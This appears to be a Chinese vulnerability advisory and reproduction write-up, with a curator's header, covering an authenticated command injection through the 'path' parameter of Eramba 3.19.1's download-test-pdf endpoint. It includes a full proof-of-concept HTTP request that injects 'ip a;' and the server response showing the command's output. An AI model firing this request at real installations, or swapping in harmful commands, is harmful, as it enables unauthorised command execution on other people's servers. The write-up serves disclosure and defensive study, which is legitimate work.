


# Eramba download-test-pdf path命令注入

## 条目说明

- 对象与具体问题：Eramba；download-test-pdf path命令注入
- 版本、配置及部署条件：3.19.1；Linux命令环境
- 认证与权限前提：明确合法用户登录，角色需补
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 实际500响应内stdout为ip a且显示完整shell命令，证据优于单状态码；500本身不够
- 两次相同请求冗余可合并
- 所谓补丁链接含厂商主页/研究/PoC镜像，应分层并给固定版
- 去宣传，保留应用进程身份而非最高权限

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/n5RGBu8mBmN1UwZAnM99GA)

  

网安引领时代，弥天点亮未来   

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

Eramba 是英国 Eramba 公司的一款开源的企业级 IT 治理应用程序。该程序具有 IT 安全、合规性审计分析等功能。

Eramba 3.19.1 版本存在代码注入漏洞，该漏洞源于 Eramba Web 应用程序允许经过身份验证的用户的代码执行，攻击者利用该漏洞可以修改 URL 中的参数 path，在应用程序运行的用户帐户上下文中执行命令。


  

**0x02 影响版本**  

Eramba 3.19.1 版本


  

**0x03 漏洞复现**  

  

1. 访问漏洞环境



注意：需要合法用户登录

2. 对漏洞进行复现

 **POC （GET）**

```http
GET /settings/download-test-pdf?path=ip%20a; HTTP/1.1
Host: [redacted]
Cookie: translation=1; csrfToken=1l2rXXwj1D1hVyVRH%2B1g%2BzIzYTA3OGFiNWRjZWVmODQ1OTU1NWEyODM2MzIwZTZkZTVlNmU1YjY%3D; PHPSESSID=14j6sfroe6t2g1mh71g2a1vjg8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://[redacted]/settings
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

漏洞复现（状态码 500）可能存在漏洞



漏洞存在请求与响应

HTTP request:

```http
GET /settings/download-test-pdf?path=ip%20a; HTTP/1.1
Host: [redacted]
Cookie: translation=1; csrfToken=1l2rXXwj1D1hVyVRH%2B1g%2BzIzYTA3OGFiNWRjZWVmODQ1OTU1NWEyODM2MzIwZTZkZTVlNmU1YjY%3D; PHPSESSID=14j6sfroe6t2g1mh71g2a1vjg8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://[redacted]/settings
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

HTTP response:

```
HTTP/1.1 500 Internal Server Error
Date: Fri, 31 Mar 2023 12:37:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Access-Control-Allow-Origin: *
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Disposition: attachment; file
X-DEBUGKIT-ID: d383f6d4-6680-4db0-b574-fe789abc1718
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 2033469
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8"/> <meta >
<title>
Error: The exit status code '127' says something went wrong:
stderr: "sh: 1: --dpi: not found
"
stdout: "1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether [redacted] brd ff:ff:ff:ff:ff:ff
    inet [redacted] brd [redacted] scope global ens33
       valid_lft forever preferred_lft forever
    inet6 [redacted] scope link
       valid_lft forever preferred_lft forever
"
command: ip a; --dpi '90' --lowquality --margin-bottom '0' --margin-left '0'
--margin-right '0' --margin-top '0' --orientation 'Landscape'
--javascript-delay '1000' '/tmp/knp_snappy6426d4231040e1.91046751.html'
'/tmp/knp_snappy6426d423104587.46971034.pdf'. </title>
[...]

```


  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
http://eramba.com/
https://trovent.io/security-advisory-2303-01/
https://packetstormsecurity.com/files/173888/Eramba-3.19.1-Remote-Command-Execution.html

```

**弥天简介**

**学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。**

**口号 网安引领时代，弥天点亮未来**

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
